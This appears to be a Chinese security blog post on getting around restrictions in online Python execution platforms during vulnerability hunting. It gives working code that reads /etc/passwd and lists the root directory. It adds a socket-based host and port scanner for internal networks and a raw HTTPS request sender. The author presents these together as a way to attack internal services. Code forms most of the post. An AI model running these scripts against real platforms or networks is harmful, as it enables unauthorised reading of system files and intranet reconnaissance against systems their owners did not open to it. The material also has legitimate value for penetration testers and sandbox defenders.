





# 漏洞挖掘过程中特殊情况下 python 基础库的使用 - 先知社区

漏洞挖掘过程中特殊情况下 python 基础库的使用

- - -

## 前言

在一些可以在线运行代码的平台上，可能因为权限的问题对高危操作存在较大的限制。这时候可以选择一些不同的思路去实现一些特殊的操作。

## 文件读取

在一次漏洞挖掘的过程中，平台是可以直接运行基础的 python 代码的，自带一些系统库，但是直接调用系统命令是不被允许的。不能执行系统命令，那么就可以考虑去寻找一些其他的漏洞。这个时候我突然想到是不是可以利用文件操作，去进行文件读取呢？那这个时候我就写了一段简单的 python 代码进行测试

```plain
file = open('/etc/passwd', 'r')
try:
  text = file.read() 
  print(text)
finally:
  file.close()
```

就这样还真读取到了，那么想要读取其他文件，就必须要知道目录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240227154947-c77d367a-d544-1.png)  
配合这段代码，就可以进行目录的列出了。

```plain
import os

def file_name_listdir(file_dir):
  for files in os.listdir(file_dir): # 不仅仅是文件，当前目录下的文件夹也会被认为遍历到
    print("files", files)
file_name_listdir("/")
```

可以看到这样就可以读取到根目录下的一些内容。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240227155111-f9a85846-d544-1.png)  
那么单单进行读取的话还是危害不是很高，很多服务可能都是存在于内网的，无法直接进行访问，但是我们又不能直接访问，怎么办呢，还是系统库。这里可以借助 socket 库

## 内网探测

我们都知道 socket 可以发起网络通信，通过它实际上我们就可以发出各种请求了。比如可以实现端口扫描，但是如果我们想要探测主机存活的话是需要 ICPM 协议的，但是！这里我们实际上可以通过 socket 连接来判断主机存活。如下：

```plain
import socket
import ipaddress
def scan_port(host, port, timeout=1):
    # 创建套接字
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.settimeout(timeout)
    try:
        # 尝试连接到指定主机和端口
        client_socket.connect((host, port))
        print(f"Port {port} is open on {host}")
        return True  # 返回 True 表示连接成功（端口开放）
    except socket.timeout:
        # print(f"Connection to port {port} on {host} timed out")
        return False  # 返回 False 表示连接超时
    except socket.error:
        print(f"Port {port} on {host} is closed")
        return True  # 返回 True 表示连接失败（端口关闭）
    finally:
        # 关闭套接字
        client_socket.close()
def port_scanner(target_network, target_ports, timeout=1):
    # print(f"Scanning ports on network {target_network}")
    # 遍历所有 IP 地址
    for ip in ipaddress.IPv4Network(target_network, strict=False):
        current_ip = str(ip)
        # print(f"Scanning ports on {current_ip}")
        # 遍历所有端口
        for port in target_ports:
            if not scan_port(current_ip, port, timeout):
                break  # 如果连接超时，立即扫描下一个 IP
if __name__ == "__main__":
    # 设置目标网络和端口范围
    target_network = "192.168.0.1/24"  # 替换为实际的目标网络
    target_ports = range(1, 2)  # 替换为实际的端口范围
    # 扫描端口
    port_scanner(target_network, target_ports)
```

可以看到这里实际上是可以看到存活的主机情况的。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240227155739-e098c948-d545-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240227155615-aec81568-d545-1.png)  
通过上面的代码其实就可以判断主机和端口的存活，然后通过 socket 就可以构造 http 数据包进行请求

```plain
import socket
import ssl

def send_https_request():
    # 设置服务器地址和端口
    server_address = ('192.168.0.1', 443)  # 请替换为实际的服务器地址和端口
    # 创建套接字
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        # 连接到服务器
        client_socket.connect(server_address)
        # 将套接字包装为 SSL 连接
        ssl_socket = ssl.wrap_socket(client_socket, ssl_version=ssl.PROTOCOL_TLS)
        # 发送 HTTP GET 请求
        request_data = "GET / HTTP/1.1\r\nHost: 192.168.0.1\r\n\r\n"
        ssl_socket.sendall(request_data.encode())
        # 接收响应数据
        response_data = ssl_socket.recv(1024)
        print("Response from server:\n", response_data.decode())
    except Exception as e:
        print(f"Error: {e}")
    finally:
        # 关闭套接字
        client_socket.close()
if __name__ == "__main__":
    send_https_request()
```

这样得到了响应内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240227155855-0deaeab6-d546-1.png)  
通过上面的组合的话实际上就可以对内网的一些服务发起攻击了。
